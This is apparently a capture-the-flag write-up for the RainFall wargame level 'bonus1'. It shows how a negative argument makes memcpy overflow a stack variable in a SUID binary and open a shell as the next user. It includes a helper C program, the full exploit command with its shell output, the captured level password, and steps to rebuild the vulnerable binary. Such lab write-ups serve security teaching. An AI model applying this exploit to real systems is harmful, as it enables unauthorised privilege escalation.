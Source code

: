 # Level bonus 1

## Vulnerability

memcpy() buffer overflow

## Context

We find a binary with owner ```bonus2``` and SUID.
```
bonus1@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```
When run with no arguments it segfaults. with any number of random arguments it does nothing.
```
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 hi
bonus1@RainFall:~$
```

## Solution

Investigating with gdb we find only ```main()```, no other functions. ```main()``` calls ```memcpy()``` which is vulnerable to buffer overflow.

First ```main()``` reads the first argument ```n = atoi(argv[1])```, and exits the program if ```n``` not less than 10. So any number less than 10, easy!

Next ```memcpy()``` copies ```n``` * 4 bytes from ```argv[2]``` to a buffer on the stack with the potential to overflow ```n```.

Finally, if now ```n``` == 0x574f4c46 ("FLOW" in ascii) a shell is opened.

So we want to use ```memcpy()``` to overflow ```n``` with 0x574f4c46. The problem is ```n``` <= 9, ```memcpy()``` copies ```n``` * 4 bytes, 9 * 4 = 36. Not long enough to reach and overwrite ```n```, 44 bytes minimum. The solution is to use a negative number which when multiplied by 4 is more than 44 (n * 4 => 44).

### Find n (first argument)

We can write a simple c program ```find_n.c``` to find an ```n``` which works for us.
```
/*
	find_n.c
*/
#include <stdio.h>
#include <limits.h>

int	main(void)
{
	int	n;

	n = INT_MIN;
	while (n < 0)
	{
		if (n * 4 >= 44)
		{
			printf("n = %d, n * 4 = %d\n", n, n * 4);
			break ;
		}
		n++;
	}
	return (0);
}
```
Compiled and run with ```gcc find_n.c -o find_n; ./find_n``` it outputs:
```
n = -2147483637, n * 4 = 44
```

### Build overflow string

So our first argument ```n``` is ```-2147483637```

And our second argument:
1. 40 bytes padding to reach the address of ```n``` - ```$(python -c 'print "A" * 40'```
2. target value ```n``` to open shell, 0x574f4c46 = "FLOW" in ascii - ```"FLOW"```
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Recreate Exploited Binary

As user ```bonus2```, in ```/tmp```, create and compile ```bonus1_source.c```
```
bonus2@RainFall:/tmp$ gcc bonus1_source.c -fno-stack-protector -o bonus1_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus2@RainFall:/tmp$ chmod u+s bonus1_source; chmod +wx ~; mv bonus1_source ~
```

Exit back to user ```bonus1```, then provide our exploit arguments to the source.
```
bonus2@RainFall:/tmp$ exit
exit
bonus1@RainFall:~$ /home/user/bonus2/bonus1_source -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
```
